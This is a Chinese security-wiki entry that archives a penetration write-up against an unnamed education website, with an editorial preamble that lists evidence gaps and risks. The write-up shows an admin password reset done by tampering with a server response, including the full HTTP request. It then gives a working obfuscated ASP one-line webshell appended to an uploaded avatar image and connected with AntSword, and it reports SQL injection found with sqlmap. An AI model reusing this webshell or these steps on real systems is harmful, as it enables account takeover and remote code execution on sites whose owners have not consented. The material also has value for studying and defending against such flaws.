# edu漏洞挖掘：任意密码重置管理员账户&getshell

<!-- vulwiki-editorial-rebuild:system-misc -->
## 条目范围与校订

- 本文对象：未具名教育网站/ASP.NET社区与ASP后台
- 文献类型：匿名渗透案例合集
- 版本、权限及部署边界：密码重置步骤依Session；后台上传要管理员权限；SQLi三入口未公开
- 核验状态：仅重建文本校订；未执行文中代码、PoC 或扫描，未把截图或转载声明记为本站复现

### 具体结论与待核项

以下为原归档的逐项勘误与证据缺口；可由文本确定的问题已在下文订正，仍缺来源的事实保持待核。

1. 改客户端返回success只证明前端进下一步，不足证明后端重置缺授权，应补实际提交接口/令牌校验与新凭据登录证据
2. 任意密码重置、后台上传、3处SQLi分别记录为匿名案例，不从教育行业推所有EDU软件受影响
3. 上传混ASP.NET页面与ClassicASP执行，需IIS映射条件；正常头像路径不能保证恶意扩展相同落点，关键包均图未视检
4. SQL单引号报错不足确认注入，缺对照/入口与工具结果文字；12rank不等同技术验证
5. 原始来源的路径已打码，现存材料不足以完整复现；重置/上传持久文件/删改数据风险需标

### 操作风险

原始来源的路径已打码，现存材料不足以完整复现；重置/上传持久文件/删改数据风险需标

技术请求、代码与实验方法按原文保留；其中的破坏性动作仅限授权、可恢复的隔离环境。缺失代码、参数或版本事实不猜补。

### 来源追溯

- 原文参考链接（未重新核验）：<http://xxxxxxxx/xxxxxx/xxxxx/admin.asp>
- 原始披露 URL 未确认；既有归档来源标签保留，不能替代原始公告

### 归档技术正文

安全小生  安全笑笑生   2026-01-06 12:27  
  
任意用户密码重置  
    
  
登录口找回密码：  
  
  
  
  
输入找回admin  
   
下一步  
      
  
  
  
虽然是后四位  
   
可以直接爆破 但是这里不用 直接随便输入一个抓包  
  
  
  
```
GET /ajax/Users/xxxxxxxxxxxs.aspx?LoginName=admin&Panswer=1111 HTTP/1.1              
Host: xxxxxxxxxxxxxx              
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/142.0.0.0 Safari/537.36              
Content-Type: application/x-www-form-urlencoded              
Accept: 
/
Referer: xxxxxxxxxxxxxxxxxxxxx              
Accept-Encoding: gzip, deflate, br              
Accept-Language: zh-CN,zh;q=0.9              
Cookie: ASP.NET_SessionId=du0gw5bpvjkg3gnuagelkn2d              
Connection: keep-alive
```  
  
  
把返回包的数据修改为success  
  
  
  
  
  
输入密码  
   
修改成功  
  
  
  
他这个个人社区的账户是和后台管理的账户是绑定的  
      
  
账户密码是一样的  
  
  
  
登入成功  
   
进而可以修改网站的所有配置  
  
更新头像处  
getshell  
  
因为上传的返回包不会返回路径  
   
先上传一个正常的图片 获得路径  
      
  
  
  
然后再抓一个上传正常的图片的包  
   
上传asp 在图片末尾加入一句话  
      
```
<%              
Class C8Ch              
Public Property Let SXEWH(Db4X836F5)              
Execute Left(Db4X836F5, 9999)              
End Property              
End Class              
Set a = New C8Ch              
a.SXEWH = Request("shell")              
%>
```  
  
  
  
  
上传成功  
  http://xxxxxxxx/xxxxxx/xxxxx/admin.asp  
  
也是用蚁剑成功连接  
  
  
  
  
  
还有大量sql注入  
  
抓此处检索的包  
  
  
  
发现单引号报错  
      
  
  
  
这边图方便  
   
直接sqlmap 一把梭  
      
  
     
  
  
也是找到了三个接口存在sql注入  
      
  
最后也是共计拿下12rank  
      
  
   
  
  
bytheway  
  
如果有师傅想法案例或者发什么文章的话，只要和安全相关直接私信我笑笑生就好了  
  


---

> 来源：gelusus/wxvl（微信公众号漏洞文章自动归档，原始披露 URL 尚未确认，现有链接按来源追溯区分别标注）
